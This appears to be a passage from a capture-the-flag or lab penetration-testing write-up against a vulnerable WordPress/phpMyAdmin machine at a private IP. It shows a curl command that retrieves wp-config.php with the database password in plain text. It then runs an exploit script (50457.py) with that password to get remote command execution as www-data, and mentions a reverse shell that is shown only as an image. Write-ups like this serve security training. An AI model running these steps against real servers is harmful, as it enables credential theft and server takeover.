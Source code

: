 ```php
$ curl http://192.168.197.174/wp-config.php      
<?php
/**
 * The base configuration for WordPress
 *
 * The wp-config.php creation script uses this file during the
 * installation. You don't have to use the web site, you can
 * copy this file to "wp-config.php" and fill in the values.
 *
 * This file contains the following configurations:
 *
 * * MySQL settings
 * * Secret keys
 * * Database table prefix
 * * ABSPATH
 *
 * @link https://codex.wordpress.org/Editing_wp-config.php
 *
 * @package WordPress
 */

// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define('DB_NAME', 'wordpress');

/** MySQL database username */
define('DB_USER', 'wordpress');

/** MySQL database password */
define('DB_PASSWORD', 'ThinnerATheWaistline348');

/** MySQL hostname */
define('DB_HOST', 'localhost');

/** Database Charset to use in creating database tables. */
define('DB_CHARSET', 'utf8');

/** The Database Collate type. Don't change this if in doubt. */
define('DB_COLLATE', '');
<TRUNCATED>
```

Using this password, we can achieve RCE on phpMyAdmin:

```
$ python3 50457.py 192.168.197.174 8888 / wordpress ThinnerATheWaistline348 id    
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

We can then get a reverse shell:

<figure><img src="../../../.gitbook/assets/image (3788).png" alt=""><figcaption></figcaption></figure>
